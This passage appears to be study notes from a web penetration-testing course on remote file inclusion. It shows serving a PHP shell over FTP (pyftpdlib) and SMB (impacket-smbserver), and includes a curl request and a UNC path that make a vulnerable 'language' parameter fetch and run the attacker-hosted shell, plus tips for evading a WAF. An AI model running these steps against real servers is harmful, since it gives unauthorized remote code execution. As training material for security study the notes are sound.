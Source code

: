 ```bash
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```
This may also be useful in case HTTP ports are blocked by a firewall or the "`http://`" string gets blocked by a **WAF**. 

To include our script, we can repeat what we did earlier, but use the "`ftp://`" scheme in the URL, as follows:
![[Pasted image 20250207213123.png]]
As we can see, this worked very similarly to our HTTP attack, and the command was executed. 

**Note**, that by default, PHP tries to authenticate as an ``anonymous`` user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'

...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### SMB
If the web app is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the "`allow_url_include`" setting to be enabled for **RFI** exploitation. This is because Windows treats files on remote ``SMB`` servers as normal files, which can be referenced directly with a **UNC** path.

We can spin up an ``SMB`` server using "`Impacket's smbserver.py`", which allows anonymous authentication by default, as follows:
```bash
$ impacket-smbserver -smb2support share $(pwd)

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, we can include our script by using a **UNC** path (e.g. "`\\<OUR_IP>\share\shell.php`"), and specify the command with ("`&cmd=whoami`") as we did earlier:
![[Pasted image 20250207213402.png]]
As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. 

However, we must note that **this technique is more likely to work if we're on the same network**, as accessing remote ``SMB`` servers over the internet may be disabled by default.
## LFI and File Uploads
The attack we are going to discuss here, does not require the file upload form to be vulnerable, but merely allow us to upload files. 
